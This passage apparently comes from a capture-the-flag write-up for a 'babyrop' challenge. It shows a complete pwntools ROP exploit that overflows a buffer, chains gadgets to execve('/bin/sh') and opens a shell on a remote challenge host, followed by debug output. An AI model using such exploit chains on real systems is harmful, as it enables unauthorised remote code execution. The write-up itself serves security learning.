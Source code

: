 ```c
.data:0000000000404027
```

- In the data segment we see some random strings that we can overwrite and have no impact on the program. And because PIE is disabled, we can hardcode the address
- Once we have 59 in RAX, execute an `execve` syscall, with the previously read `/bin/sh` as the first argument, and 0 in the next 2 arguments (no need for `argv` and `envp`, just the filename)
- Enjoy the shell

We put this into a script:

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

elf = ELF("./babyrop")
# r = process("./babyrop")
r = remote("34.159.235.104", 30041)
r.clean()

pop_rdi = p64(next(elf.search(asm("pop rdi; ret"), executable=True)))
pop_rsi = p64(next(elf.search(asm("pop rsi; pop r15; ret"), executable=True)))
pop_rdx = p64(next(elf.search(asm("pop rdx; ret"), executable=True)))
syscall = p64(next(elf.search(asm("syscall"), executable=True)))

writeable = p64(0x404000)

payload = b""
payload += b"A" * 216
payload += pop_rdi + writeable
payload += pop_rsi + p64(59) + p64(59)
payload += p64(elf.sym['read'])
payload += pop_rdi + writeable
payload += pop_rsi + p64(0) + p64(0)
payload += pop_rdx + p64(0)
payload += syscall

r.send(payload)
r.send(b"/bin/sh" + b"\x00" * 52)
r.interactive()
```

Output:

```c
[DEBUG] '/home/toma/unbreakable/babyrop_ret/babyrop' is statically linked, skipping GOT/PLT symbols
[*] '/home/toma/unbreakable/babyrop_ret/babyrop'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 34.159.235.104 on port 30041: Done
[DEBUG] cpp -C -nostdinc -undef -P -I/home/toma/.local/lib/python3.9/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    .p2align 2
    _start:
    __start:
    .intel_syntax noprefix
    pop rdi; ret
```